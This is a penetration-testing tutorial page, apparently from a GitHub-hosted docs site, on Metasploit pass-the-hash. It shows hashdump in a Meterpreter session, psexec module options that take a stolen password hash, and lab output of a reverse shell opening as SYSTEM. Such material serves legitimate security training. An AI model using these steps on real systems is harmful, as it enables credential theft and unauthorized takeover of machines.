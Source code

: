 ```yaml
---
title: PsExec for Pass-the-Hash
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 6
---
```


# PsExec for Pass-the-Hash

## Introduction

The psexec module is a frequently utilized tool in the arsenal of penetration testers, serving as a means to gain access to a targeted system when credentials are already known. Originally developed by Sysinternals, this module has been seamlessly integrated into various frameworks. In many penetration testing scenarios, initial access to a system is achieved through exploits, leveraging tools like Meterpreter to extract passwords or employing techniques such as fgdump, pwdump, or cachedump. Subsequently, penetration testers often employ rainbow tables to crack hashed passwords obtained during these operations.

In this context, the Meterpreter's PSEXEC module becomes a valuable asset for authentication into another machine using a pass-the-hash technique. By leveraging this module, penetration testers can efficiently utilize hashed credentials, acquired through previous steps, to establish unauthorized access to the targeted system. 

## Step-by-Step Guide

### Setup

#### 1. Setup two windows machines with the same user name and password

For this, both machine has an account named *'user'* with *'password'* as password.

#### 2. Establish meterpreter connection to the first machine.

On this instance, a meterpreter binary was used.

How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.md)

### Exploitation

#### 1. Dump the hashes using the meterpreter session on the first machine.

Using 'hashdump' module:

```bash
meterpreter > hashdump
```

Note: You may need to elevate your privilege using *'GETSYSTEM'* to successfully dump the hashes.

![Dump the account hashes](hashdump.png)

#### 2. Use Meterpreter's PsExec module for Pass-the-Hash

Set the required options:

```bash
msf6 > use exploit/windows/smb/psexec # PsExec module
msf6 exploit(windows/smb/psexec) > set payload <PAYLOAD> # your chosen payload
msf6 exploit(windows/smb/psexec) > set RHOST <TARGET HOST> # IP of the second machine
msf6 exploit(windows/smb/psexec) > set LHOST <LISTENING IP> # your local IP
msf6 exploit(windows/smb/psexec) > set LPORT <LISTENING PORT> # your chosen port
msf6 exploit(windows/smb/psexec) > set SMBUser <TARGET USER> # target user from hashdump
msf6 exploit(windows/smb/psexec) > set SMBPass <TARGET PASSWORD HASH> # target user's password from hashdump
```

Sample: Using the *'user'* information from the hashdump:

![Sample PsExec options](psexec_options.png)


#### 3. Run the exploit and take over the second machine.

```bash
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.152.132:8888 
[*] 192.168.152.154:445 - Connecting to the server...
[*] 192.168.152.154:445 - Authenticating to 192.168.152.154:445 as user 'user'...
[*] 192.168.152.154:445 - Selecting PowerShell target
[*] 192.168.152.154:445 - Executing the payload...
[+] 192.168.152.154:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.152.154
[*] Meterpreter session 2 opened (192.168.152.132:8888 -> 192.168.152.154:49174) at 2024-02-02 11:49:11 +1100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Video Demonstration

[<img src="https://img.youtube.com/vi/aJ3ey8L2p3E/hqdefault.jpg"
/>](https://www.youtube.com/embed/aJ3ey8L2p3E)

## Reference
https://www.offsec.com/metasploit-unleashed/psexec-pass-hash/